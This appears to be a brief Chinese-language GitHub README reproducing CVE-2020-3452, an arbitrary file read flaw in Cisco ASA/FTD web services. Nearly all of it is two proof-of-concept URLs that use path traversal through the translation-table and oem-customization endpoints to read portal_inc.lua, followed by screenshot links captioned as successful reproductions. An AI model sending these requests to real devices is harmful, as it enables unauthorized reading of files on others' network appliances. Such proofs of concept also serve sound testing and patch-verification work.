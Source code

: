 CVE-2020-3452：Cisco_ASAFTD任意文件读取漏洞  

POC:one:

```
For example to read "/+CSCOE+/portal_inc.lua" file. https://<domain>/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```



漏洞复现情况如下:

![](./img/67.png)

POC:two:

```
https://<domain>/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
```

漏洞复现情况如下：

![](./img/68.png)